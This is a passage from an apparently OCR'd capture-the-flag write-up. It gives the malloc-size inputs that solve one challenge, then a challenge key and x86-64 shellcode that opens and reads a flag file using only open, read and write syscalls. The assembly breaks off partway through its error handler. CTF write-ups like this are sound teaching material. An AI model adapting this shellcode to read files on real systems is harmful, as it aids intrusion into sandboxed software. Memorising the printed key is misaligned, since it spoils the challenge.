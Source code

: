 In the end, we just need to use the following arguments to solve the challenge.
If you look, you'll see that the malloc address always end in a zero, e.g.,
0x?0.

```
8
24
40
72
138
264
520
1032
2056
4104
```

# asm

key: `Mak1ng_shelLcodE_i5_veRy_eaSy`

Solution: We just need to write some shell code to read the flag file, but the
only system calls we can use are open, read, and write. Fortunately, we don't
have to worry about null bytes in our shell code. 

Here's the assembly:

```asm
  .global _start

  .text

_start:
  call ender
setup:
  xor %rax, %rax
  xor %rbx, %rbx
  xor %rcx, %rcx
  xor %rdx, %rdx
  xor %rsi, %rsi
  xor %rdi, %rdi

  #print the path

open:
  #open the flag file
  pop %rdi # string address
  xor %rsi, %rsi # zero flags
  xor %rdx, %rdx # read only mode 
  mov $2, %rax # syscall open
  syscall
  cmpl $0x0, %eax
  jns read  # fd >= 0 
  jmp error  # fd < 0, file wasnt opened

# This error block is executed if the file couldn't be opened, typically because the filename is wrong (did you forget the to null terminate the string?)
error:
  mov %rdi, %rsi
  xor %rdx, %rdx
  xor %rdi, %rdi
  xor %rax, %rax
  mov $231, %dl  # arg: length
  mov $1, %dil # arg: file descriptor
  mov $1, %rax # system call number: write
```